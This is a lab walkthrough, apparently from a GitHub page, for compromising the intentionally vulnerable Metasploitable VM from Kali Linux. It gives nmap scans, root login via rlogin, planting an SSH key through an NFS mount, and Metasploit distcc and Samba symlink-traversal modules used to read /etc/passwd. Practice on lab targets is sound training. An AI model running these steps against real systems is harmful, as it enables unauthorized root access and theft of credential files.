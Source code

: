 ```yaml
---
title: Metasploitable
published: true
---
```

The following information shows the **Metasploitable walkthrough**

## [](#header-2)Introduction

   Metasploitable is a Linux based operating system that is designed in a vulnerable way so that the pen-testers and ethical hackers can test their skills. There is no security to the server hence it is always better to _run the metasploitable in a virtual environment_, as anyone can logon into it.
  
### [](#header-3)Requirements
  
   1. Download the vulnerable OS from the following link, **[metaploitable_download_link](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).**
   2. Kali Linux can be downloaded from the link, **[Kali_Linux_download_link](https://www.kali.org/).**
   3. Virtual Environment, here example is shown using VMware Workstation.
   4. Good understanding of Metasploit Framework(MSF).
   5. Linux commands usage.
       Install both the Operating Systems and run it.
      
      **_NOTE: Installation steps of Kali Linux can be found here,[Kali_linux_insatllation_guide](another_page)_.**
      
   When the OSes installed properly, one can encounter as shown in the following image,
   

# [](#header-1) image 
   
   
   Login into the metasploitable terminal, Username and password would be given(commonly, it is msfadmin)
     
   Get the IP address, `# ifconfig`
   Use that IP_address and perform the following steps: 
        
	1. Scanning
        
        2. Vulnerability identification/Enumeration
        
        3. Exploitation and Access Gaining 

# [](#header-1) Network Penetration Testing

# [](#header-1)Step 1: Scanning 
   
   In this we need to find the ports that are open and also services running on that each port using which exploitation is done.

   * Open a terminal in Kali Linux and use **_namp_** to perform the Network Scanning
   * Enter the following command, `# nmap -sS -Pn -n ip_address`
     - by default NMAP scans upto 1000 ports, to scan all the ports use either `-p`- or `-p 1-65535`
     - the above command offers the TCP SYN scan, to scan the UDP ports use `-sU`
     - the command also skips the host discovery(no Ping) and DNS resolution
            
      The results can be similar to the following image,
      
      # [](#header-1) image 
         
        ![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)



# [](#header-1)Step 1: Enumeration

nmap -Pn --script vuln 192.168.1.105

   

# [](#header-1)Step 1: Exploitation and Acess Gaining

   There are various to gain access to the Metasploitable target machine. Lets try them as follows,

**_METHOD 1:_**
   
   Ports 512,513,514 offers the ‘r’ services, it means that remote access can be gained from any host using the IP address.
   
   So open a terminal and type, 
   
	   # rlogin -l root ip_address	

	// if asks for password then probably rsh-client is not installed, else you will be in that target machine.

	   # apt install rsh-client

	   now execute, # rlogin -l root ip_address	

	// should work perfectly if that service is open


**_METHOD 2: SSH LOGIN_**

   For this we need to generate the RSA key and kinda have to copy that key to that target machine using rpcbind and NFS (port 2049) mount the NFS export (for exporting), and add our key to the root user account's authorized_keys file.
      
	   # apt update

	   # apt install rpcbind nfs-common

	   # rpcinfo -p ip_address

	   # showmount -e ip_address

	   # ssh-keygen	//just press enter for the questions asked for default settings

	   # mkdir /tmp/r00t

	   # mount -t nfs ip_address:/ /tmp/r00t

	   # cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys

	   # umount /tmp/r00t

	   # ssh root@ip_address

         
**_METHOD 3: SMB 445_**

   Samba, can also be used as a backdoor to access files that were not meant to be shared when configured with a writeable file share and "wide links" enabled. I used Metasploit Framework to compromise the target.
	
	   On msfconsole,

		   > use exploit/unix/misc/distcc_

		   > set rhost 192.168.214.129

		   > exploit

	   On another terminal

	   	   # smbclient -L //ip_address

	   On msfconsole,

		   > use auxiliary/admin/smb/samba_symlink_traversal

		   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set rhost ip_address

		   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp

		   msf5 auxiliary(admin/smb/samba_symlink_traversal) > exploit

	   On terminal,

	  	   # smbclient  //ip_address/tmp
				// now you will have the smb shell access, try #cd rootfs #cd etc and #more passwd


```
The final element.
```
